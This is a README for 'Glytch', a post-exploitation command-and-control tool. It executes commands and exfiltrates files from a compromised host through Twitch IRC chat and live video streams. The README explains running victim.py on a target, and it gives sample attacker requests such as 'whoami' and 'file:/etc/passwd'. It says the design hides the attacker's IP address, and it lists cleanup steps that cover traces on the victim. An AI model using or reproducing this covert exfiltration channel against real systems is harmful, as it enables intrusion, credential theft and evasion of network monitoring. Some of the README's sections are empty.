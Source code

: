 # Glytch Command-and-Control (C2) Tool

<p align="center"> <img src="rsc/GlytchC2_Banner.PNG" /> </p>

# A FAFO project: Command execution and data exfiltration of any kind through live streaming platforms

Glytch is a post-exploitation tool serving as a Command-and-Control (C2) & Data Exfiltration service. 

It creates a covert channel through Twitch live streaming platform and lets attacker to execute an OS command or exfiltrate a data of any kind from the target computer (does not matter whether the computers are connected over a LAN or WAN).

Multi-platform (e.g. YouTube, Instagram) support is on our agenda and we are working on some kinks on such platforms' implementation challenges.

## Why?

As a penetration tester, it can be challenging to conceal your real IP address during the post-exploitation phase, especially if you're trying to cover your tracks and potentially exfiltrate data. Your current environment may block unknown IP addresses, requiring a legitimate and trustworthy communication channel. 

## Disclaimer

Use at your own discretion.

While this tool alone will not cause any damage, attacking systems/networks without prior mutual consent is illegal. It is the end user’s responsibility to obey all applicable local, state and federal laws. We assume no liability and we are not responsible for any misuse or damage caused by this.

## Features

Currently, **"GlytchC2"** offers two functionalities:
- Command execution on remote host
- Retrieve file from remote host

## Proof-of-Concepts (PoCs) & How it works

- As this tool can be used on post-exploitation, you need a working shell on the target environment and have necessary permissions/privileges.
- When you execute ``victim.py`` on the target host, host gets connected to the IRC chat of given channel by using provided "oauth" key in the ``.env`` file. You can execute ``victim.py`` with following command:
```
# cd victim
# python3 victim.py --channel <CHANNEL_NAME> --streamkey <RTMP_KEY>
```
- Then, victim waits for receiving a request containing either an OS command or a file with it's path:

<p align="center"> <img src="rsc/victim_initialexec.png" /> </p>
<p align="center"> Figure - Running "victim.py" </p>

- After victim side is up and waiting for a request, attacker needs to connect corresponding channel's IRC chat:

<p align="center"> <img src="rsc/attacker_initialexec.PNG" /> </p>
<p align="center"> Figure - Running "attacker.py" </p>

- Then, attacker either can send an OS command e.g. ``whoami`` or request a file download e.g. ``file:/etc/passwd``

<p align="center"> <img src="rsc/attacker_commandexec.png" /> </p>
<p align="center"> Figure - Running "whoami" on Remote Host </p>

- **IMPORTANT:** Note that the stream link may be fetched with a delay, therefore the program will try until obtain a valid stream link.
- We also have inserted a blank frame in the first 10 seconds of the video to prevent missing the frames.
- After the victim receives a command, it starts a stream to output the result of executed command (whether an OS command or a file request):

<p align="center"> <img src="rsc/victim_initializestream.png" /> </p>
<p align="center"> Figure - Victim Starts Streaming (Result of "whoami") </p>

- In here, attacker obtains the stream link and begins recording the stream on their end.

<p align="center"> <img src="rsc/attacker_fetchstreamlink.png" /> </p>
<p align="center"> Figure - Fetching Stream Link (Attacker) </p>

<p align="center"> <img src="rsc/attacker_record.png" /> </p>
<p align="center"> Figure - Recording Stream (Attacker) </p>

- After attacker finishes recording the stream, the program will remove duplicate frames and keep the originals in order to pass them to the decoder:

<p align="center"> <img src="rsc/attacker_removeduplicateframes.png" /> </p>
<p align="center"> Figure - Removing Duplicate Frames </p>

<p align="center"> <img src="rsc/attacker_decodeframe.png" /> </p>
<p align="center"> Figure - Decoding Recorded Frame(s) </p>

 - Decoded frame content is below:

<p align="center"> <img src="rsc/attacker_output1.PNG" /> </p>
<p align="center"> Figure - Decoded Frame Content (Result of "whoami" OS command) </p>

- We can also request a file, e.g. ``systeminformer-3.2.25011-release-setup.exe``:

<p align="center"> <img src="rsc/victim_targetfile.png" /> </p>
<p align="center"> Figure - "systeminformer-..." File Located In Victim </p>

- Sending file request from attacker:

<p align="center"> <img src="rsc/attacker_filerequest.PNG" /> </p>
<p align="center"> Figure - Requesting Target File w/File Path (Attacker) </p>

- Victim starts streaming (Twitch screen):
  
<p align="center"> <img src="rsc/victim_twstreaming.PNG" /> </p>
<p align="center"> Figure - Victim Starts Twitch Stream </p>

- When the stream finishes, victim cleans up generated files:

<p align="center"> <img src="rsc/victim_cleanup.PNG" /> </p>
<p align="center"> Figure - Stream Ending & Cleanup (Victim) </p>

## Main Execution Flow 
<p align="center"> <img src="rsc/GlytchC2_MainExecutionFlow.jpg" /> </p>
<p align="center"> Figure - Main Execution Flow </p>

While main execution flow of this program is provided in below flowchart, we’d like to explain the features in brief:

- Attacker inputs a Twitch channel name in order to establish an IRC connection with victim.
- Victim is in passive mode on the IRC connection and is in  waiting mode for a ping from another peer (namely, the attacker).
- Attacker sends an arbitrary command via IRC and waits for a "READY" message from the victim to see the communication channel is ready.
-

## Module 

-

## What's next? & Current Roadmap for this project

-
